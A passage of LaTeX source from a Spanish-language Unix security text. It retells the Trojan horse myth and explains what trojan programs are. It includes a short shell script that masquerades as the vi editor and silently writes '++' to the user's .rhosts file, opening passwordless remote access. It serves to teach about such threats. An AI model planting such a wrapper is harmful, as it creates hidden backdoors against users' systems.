 \subsection{Caballos de Troya}
En el libro VIII de La Odisea de Homero se cuenta la historia de que los 
griegos, tras mucho tiempo de asedio a la ciudad de Troya, decidieron construir
un gran caballo de madera en cuyo interior se escondieron unos cuantos soldados;
el resto del ej\'ercito griego abandon\'o el asedio dejando all\'{\i} el
caballo, y al darse cuenta de que el sitio a su ciudad hab\'{\i}a acabado, los 
troyanos salieron a inspeccionar ese gran caballo de madera. Lo tomaron como
una muestra de su victoria y lo introdujeron tras las murallas de la ciudad sin
darse cuenta de lo que realmente hab\'{\i}a en \'el. Cuando los troyanos
estaban celebrando el fin del asedio, del interior del caballo salieron los
soldados griegos, que abrieron las puertas de la ciudad al resto de su 
ej\'ercito -- que hab\'{\i}a vuelto al lugar -- y pudieron de esta forma 
conquistar la ciudad de Troya.\\
\\De la misma forma que el antiguo caballo de Troya de la mitolog\'{\i}a griega
escond\'{\i}a en su interior algo que los troyanos desconoc\'{\i}an, y que 
ten\'{\i}a una funci\'on muy diferente a la que ellos pensaban, un troyano o 
caballo de Troya actual es un programa que aparentemente realiza una
funci\'on \'util para qui\'en lo ejecuta, pero que en realidad -- o aparte -- 
realiza una funci\'on que el usuario desconoce, generalmente da\~nina. Por
ejemplo, un usuario que posea el suficiente privilegio en el sistema puede 
renombrar el editor {\tt vi} como {\tt vi.old}, y crear un programa denominado
{\tt vi} como el siguiente:
\tt
\begin{quote}
\begin{verbatim}
#!/bin/sh
echo "++">$HOME/.rhosts
vi.old $1
\end{verbatim}
\end{quote}
\rm
Si esto sucede, cuando alguien trate de editar un fichero autom\'aticamente
va a crear un fichero {\tt .rhosts} en su directorio de usuario, que 
permitir\'a a un atacante acceder de una forma sencilla al sistema utilizando
las \'ordenes {\tt r-$\ast$} de Unix BSD.\\
\\Los troyanos son quiz\'as el {\it malware} m\'as difundido en cualquier tipo 
de entorno (\cite{kn:kra}), incluyendo por supuesto a Unix; sus variantes 
incluyen incluso ejemplos graciosos: ha habido casos en
